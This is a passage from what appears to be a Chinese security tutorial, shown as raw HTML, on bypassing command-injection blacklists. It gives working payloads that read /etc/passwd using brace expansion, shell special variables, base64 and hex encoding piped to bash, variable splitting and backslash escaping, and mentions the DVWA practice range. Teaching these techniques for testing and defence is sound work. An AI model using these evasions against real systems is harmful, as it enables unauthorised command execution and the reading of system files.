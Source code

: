 </code></pre>
<ul data-nodeid="20436">
<li data-nodeid="20437">
<p data-nodeid="20438"><strong data-nodeid="20630">{cmd,arg}</strong></p>
</li>
</ul>
<p data-nodeid="20439">在 Linux bash 环境中可以使用花括号 {cmd,arg} 扩展来绕过：</p>
<pre class="lang-java" data-nodeid="20440"><code data-language="java">{cat,etc/passwd}
</code></pre>
<p data-nodeid="20441">这个依赖 bash 环境，并不是那么通用的方式，比如在 DVWA 靶场中就不适用。<br>
<strong data-nodeid="20637">（3）黑名单绕过</strong></p>
<p data-nodeid="20442">绕过黑名单就是先探测哪些是黑名单，尽量避开不用，如果还不行可以考虑以下方法。</p>
<ul data-nodeid="20443">
<li data-nodeid="20444">
<p data-nodeid="20445"><strong data-nodeid="20642">shell 特殊变量</strong></p>
</li>
</ul>
<p data-nodeid="20446">先看下 shell 中的一些特殊变量：</p>
<p data-nodeid="20447"><img src="https://s0.lgstatic.com/i/image/M00/92/B4/Ciqc1GASi7mASyv4AAFgvRQXlzo668.png" alt="图片5.png" data-nodeid="20646"><br>
比如 cat 命令被禁，利用上述特殊变量，我们就可以这样构造来绕过：</p>
<pre class="lang-java" data-nodeid="20448"><code data-language="java">ca$<span class="hljs-number">1</span>t /etc/passwd
cat$*t /etc/passwd
ca$<span class="hljs-meta">@t</span> /etc/passwd
</code></pre>
<ul data-nodeid="20449">
<li data-nodeid="20450">
<p data-nodeid="20451"><strong data-nodeid="20652">编码绕过</strong></p>
</li>
</ul>
<p data-nodeid="20452">直接将命令字符串转换成 URL 编码、hex 码、base 64 等编码，再转换回来执行：</p>
<pre class="lang-shell" data-nodeid="20453"><code data-language="shell"><span class="hljs-meta">#</span><span class="bash"> Base64编码命令“cat /etc/passwd”</span>
echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash
<span class="hljs-meta">#</span><span class="bash"> Hex编码命令“cat /etc/passwd”</span>
echo "636174202f6574632f706173737764"|xxd -r -p|bash
<span class="hljs-meta">$</span><span class="bash">(<span class="hljs-built_in">printf</span> <span class="hljs-string">"\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"</span>)</span>
<span class="hljs-meta">#</span><span class="bash"> URL编码</span>
<span class="hljs-meta">cat%</span><span class="bash">20%2Fetc%2Fpasswd</span>
</code></pre>
<ul data-nodeid="20454">
<li data-nodeid="20455">
<p data-nodeid="20456"><strong data-nodeid="20657">变量自定义</strong></p>
</li>
</ul>
<p data-nodeid="20457">将黑名单内容拆分到不同的变量，再拼接起来执行。</p>
<pre class="lang-java" data-nodeid="20458"><code data-language="java">a=c;b=at;c=<span class="hljs-string">"/etc/passwd"</span>;$a$b $c
</code></pre>
<ul data-nodeid="20459">
<li data-nodeid="20460">
<p data-nodeid="20461"><strong data-nodeid="20662">反斜杠</strong></p>
</li>
</ul>
<p data-nodeid="20462">反斜杠的作用就是转义，因此可用来拆分黑名单字符串，但又不影响结果。</p>
<pre class="lang-java" data-nodeid="20463"><code data-language="java">c\a\t /et\c/pas\s\wd
</code></pre>
<ul data-nodeid="20464">
<li data-nodeid="20465">
<p data-nodeid="20466"><strong data-nodeid="20667">单双引号</strong></p>
</li>
</ul>
